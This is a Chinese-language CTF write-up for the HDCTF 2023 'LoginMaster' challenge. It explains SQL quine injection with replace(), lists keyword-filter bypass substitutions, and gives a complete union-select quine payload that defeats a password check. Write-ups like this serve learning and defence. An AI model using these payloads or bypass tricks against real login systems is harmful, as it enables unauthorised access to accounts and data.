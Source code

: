 

# [HDCTF 2023]LoginMaster 复现

## 知识点

>   **SQL的Quine注入，需要让输入和输出的结果一样**

## 怎么让输入输出一样

**使用quine注入，简单来说这是一种使得输入的sql语句和输出的sql语句一致的方法**



**首先先了解一下replace()函数**

-   `replace(object,search,replace)`
-   把`object`对象中出现的的`search`全部替换成`replace`
-   **案例**

```sql
# object  = .
# search  = char(46)
# replace = .
select replace(".",char(46),".");# char(46)就是【.】
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+
| .                         |
+---------------------------+

# 将object写成replace(".",char(46),".")
# object  = replace(".",char(46),".")
# search  = char(46)
# replace = .
select replace('replace(".",char(46),".")',char(46),'.');
+---------------------------+
| replace(.....) 			|
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+

# 这时候我们将第三个参数也改成replace(".",char(46),".")
# object  = replace(".",char(46),".")
# search  = char(46)
# replace = replace(".",char(46),".")
select replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")');
+---------------------------------------------------------------------------+
| replace('replace(".",char(46),".")',char(46),'replace(".",char(46),".")') |
+---------------------------------------------------------------------------+
| replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")") |
+---------------------------------------------------------------------------+
# 这时可以发现输出的值和我们查询的东西快变成一样的了，唯一存在的不足就是【单双号的不同】
# 原来：replace(".",char(46),".") 变成了：replace("replace(".",char(46),".")",char(46),"replace(".",char(46),".")")
```

**解决单双引号不同的问题**

```sql
# char(34) = "      	char(39) = '
# object  = replace('"."',char(34),char(39)) == 【'.'】
# search  = char(46)
# replace = .
select replace(replace('"."',char(34),char(39)),char(46),".");# 先执行内层replace
+--------------------------------------------------------+
| replace(replace('"."',char(34),char(39)),char(46),".") |
+--------------------------------------------------------+
| '.'                                                    |
+--------------------------------------------------------+
# 这样就可以将我们的双引号替换成单引号，此时我们继续沿用上面的思路，构造输入输出相同的语句


# object  = replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)
# search  = char(46)
# replace = replace(replace(".",char(34),char(39)),char(46),".")
select replace
	(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),
     char(46), 
     'replace(replace(".",char(34),char(39)),char(46),".")' );
+------------------------------------------------------------------------------------------------------------------------------------------------------------+
| replace(replace('replace(replace(".",char(34),char(39)),char(46),".")',char(34),char(39)),char(46),'replace(replace(".",char(34),char(39)),char(46),".")') |
+------------------------------------------------------------------------------------------------------------------------------------------------------------+  
     
```

**Quine基本形式**

```sql
select replace(replace('str',char(34),char(39)),char(46),'str');
# 这样去查询就会的得到str字符串本身，不过就是咋这里要多一步，先将str里的双引号替换成单引号，再用str替换str里的.
```

**注入的Quine基本形式**

```sql
1'/**/union/**/select/**/replace(replace('',char(34),char(39)),char(46),'') #
# 这样去查询就会得到一个空的结果
'
select replace(replace('"."',char(34),char(39)),char(46),".");
# 这条语句用来把双引号替换为单引号
```



## 解题

-   打开题目发现主页是一个登录框，并且登录成功就给flag
-   首先寻找一下有没有提示，看源代码和访问`robots.txt、www.zip`，在`robots.txt`中发现如下代码

```java
function checkSql($s) {
    if(preg_match("/regexp|between|in|flag|=|>|<|and|\||right|left|reverse|update|extractvalue|floor|substr|&|;|\\\$|0x|sleep|\ /i",$s)){
        alertMes('hacker', 'index.php');
    }
}
if ($row['password'] === $password) {
        die($FLAG);
    } else {
    alertMes("wrong password",'index.php');
```

>   以上可以得知sql存在过滤，而且拿flag条件是password要等于查询出来的password

>   然后传入万能密码进行测试`1' or 1=1#`，`username、password`都输入这玩意
>
>   点击登录会弹框：`only admin can login`，用户名只能是admin，那么注入点位置就只能是在password这里
>
>   那么可以根据上面的代码的可以发现，那些过滤都是针对password的，

>   虽然过滤了很多，但一些替代关键字没有被过滤
>
>   ```nginx
>   sleep 		可以用benchmark代替
>   <,> 		可以用least(),greatest()代替
>   =,in 		可以用like代替
>   substr 		可以用mid代替
>   空格 		   可以用/**/代替
>   ```
>

>   然后就是还要绕过：`if ($row['password'] === $password) {}`，但是这张表其实是一张空表
>
>   所以只能通过让输入输出一致，达到绕过的目的
>
>   根据以上的分析就给得到playload为：

```sql
1'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#
```

**最终达到输入输出完全一致**





参考：

https://www.cnblogs.com/zhengna/p/15917521.html